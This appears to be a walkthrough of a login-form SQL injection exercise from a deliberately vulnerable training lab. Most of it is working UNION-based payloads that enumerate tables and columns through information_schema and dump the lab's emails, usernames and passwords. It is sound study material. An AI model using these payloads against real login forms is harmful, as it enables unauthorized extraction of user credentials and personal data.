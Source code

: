 # Lesson-11

Error Based

When we try just `\` we get

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''\' and password='' LIMIT 0,1' at line 1
```

So the query must be like

```sql
SELECT * FROM users where username=''$username' AND password='$password' LIMIT 0,1;
```

So we have to use `'` to break the query

When we use

```sql
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database(); #
```

We get an error

```
The used SELECT statements have a different number of columns
```

So we use:

```sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database(); #

Your Password:emails,referers,uagents,users
```

So we try to get all the info from the tables using

First we get the column names

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='emails'; #

Your Password:id,email_id
```

2

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='referers'; #

Your Password:id,referer,ip_address
```

3

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='uagents'; #

Your Password:id,uagent,ip_address,username
```

4

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'; #

Your Password:id,username,password
```

Now we can get all the data from these tables

From emails

```
1' union select group_concat(id),group_concat(email_id) from emails; #

Your Login name:1,2,3,4,5,6,7,8
Your Password:Dumb@dhakkan.com,Angel@iloveu.com,Dummy@dhakkan.local,secure@dhakkan.local,stupid@dhakkan.local,superman@dhakkan.local,batman@dhakkan.local,admin@dhakkan.com
```

From referers :

```
1' union select group_concat(id),group_concat(ip_address) from referers; #

Your Login name:
Your Password:

!empty!
```

From uagents :

```
1' union select group_concat(id),group_concat(uagent) from uagents; #

Your Login name:1,2,3,4,5,6
Your Password:Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,0,0,0

1' union select group_concat(ip_address),group_concat(username) from uagents; #

Your Login name:172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1
Your Password:admin,admin,admin,admin,admin,admin
```

From users:

```
1' union select group_concat(id),group_concat(username) from users; #

Your Login name:1,2,3,4,5,6,7,8,9,10,11,12,14
Your Password:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4

1' union select group_concat(username),group_concat(password) from users; #

Your Login name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

